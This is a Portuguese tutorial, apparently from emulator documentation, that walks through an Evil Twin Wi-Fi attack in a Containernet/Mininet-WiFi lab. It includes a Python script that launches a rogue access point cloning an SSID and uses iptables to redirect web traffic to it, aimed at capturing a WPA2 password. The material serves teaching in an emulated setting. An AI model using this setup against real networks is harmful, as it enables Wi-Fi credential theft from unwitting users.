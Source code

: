 ************
Evil Twin Attack
************


Hackeando a senha de Wi-Fi WPA2 usando Evil Twin Attack | DNSMASQ e Hostapd
-------------

.. Note::
  **Neste documento você irá compreender como realizar o ataque denominado de  Evil Twin Attack**
  
  **Requisitos:** 
  
  - Containernet - https://github.com/ramonfontes/containernet
  - Hostapd

  **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi possui todos os recursos necessários para reproduzir este documento.**

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:

.. code:: python

 #!/usr/bin/python

 '''@author: Ramon Fontes
    @email: ramon.fontes@imd.ufrn.br'''

 from containernet.net import Containernet
 from containernet.node import DockerSta
 from mininet.log import setLogLevel, info
 from containernet.cli import CLI
 from containernet.term import makeTerm


 def topology():
     "Create a network."
     net = Containernet()

     info("*** Creating nodes\n")
     sta1 = net.addStation('sta1', ip='0/0')
     sta2 = net.addStation('sta2')
     ap1 = net.addAccessPoint('ap1', ssid="simplewifi", mode="g", channel="1",
                              failMode="standalone", datapath='user')
     ap2 = net.addStation('ap2', cls=DockerSta, dimage="ramonfontes/rogue-ap", cpu_shares=20)

     info("*** Configuring wifi nodes\n")
     net.configureWifiNodes()

     info("*** Associating Stations\n")
     net.addLink(sta2, ap1)

     info("*** Starting network\n")
     net.build()
     ap1.start([])

     ap2.setMasterMode(intf='ap2-wlan0', ssid='simplewifi', channel='1', mode='g')
     #ap2.cmd('pkill -f \"ap2-wlan0.apconf\"')
     ap2.cmd('ifconfig ap2-wlan0 up 192.168.190.1 netmask 255.255.255.0')

     #ap2.cmd('iptables --flush')
     ap2.cmd('iptables --table nat --append POSTROUTING --out-interface ap2-eth1 -j MASQUERADE')
     ap2.cmd('iptables --append FORWARD --in-interface ap2-wlan0 -j ACCEPT')
     ap2.cmd('iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.190.1:80')
     ap2.cmd('iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination 192.168.190.1:80')
     ap2.cmd('iptables -t nat -A POSTROUTING -j MASQUERADE')
     ap2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

     sta1.cmd('ifconfig sta1-wlan0 192.168.190.2/24')
     sta1.cmd('route add default gw 192.168.190.1')

     info("*** Running CLI\n")
     CLI(net)

     info("*** Stopping network\n")
     net.stop()


 if __name__ == '__main__':
     setLogLevel('info')
     topology()
```

Considerando que o código acima tenha sido salvo em um arquivo com nome `evil-twin-attack.py', execute-o conforme abaixo:

.. code:: console

    sudo python evil-twin-attack.py
    
